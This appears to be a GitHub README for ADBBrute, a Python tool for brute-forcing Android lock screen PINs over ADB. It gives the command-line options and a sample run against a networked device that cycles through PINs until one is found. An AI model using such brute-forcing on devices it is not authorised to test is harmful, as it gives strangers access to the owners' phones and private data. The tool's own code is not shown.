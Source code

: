 # About ADBBrute

**ADBBrute** was written to bruteforce access to any Android device with ADB enabled.

## Usage

Print the help to get all necessary information

```bash
$ python3 ADBBrute.py -h
usage: ADBBrute.py [-h] [--device DEVICE] [--type TYPE]

Android LockScreen Bruteforce

optional arguments:
  -h, --help       show this help message and exit
  --device DEVICE  Specify the device to bruteforce
  --type TYPE      Type of bruteforce (gui / locksettings
```

Without argument, all connected devices will be displayed:

```bash
$ python3 ADBBrute.py
[x] Please specify the device to bruteforce (--device)
 - 192.168.57.109:5555
```

Finally, you need to specify the supported bruteforce methods:

* gui
* locksettings (not implemented yet)

Once specified, you just have to wait few time to get your Android PIN:

```bash
$ python3 ADBBrute.py --device 192.168.57.109:5555 --type gui
[x] Getting information on 192.168.57.109:5555 - vbox86p (Samsung Galaxy S8)
Try 1234
Try 1111
Try 0000
PIN identified: 0000
```

## Author

Régis SENET ([rsenet](https://github.com/rsenet))


## Contributing

Bug reports and pull requests are welcome on [GitHub](https://github.com/rsenet/ADBBrute).

## License

The project is available as open source under the terms of the [GPLv3](https://www.gnu.org/licenses/quick-guide-gplv3.en.html)
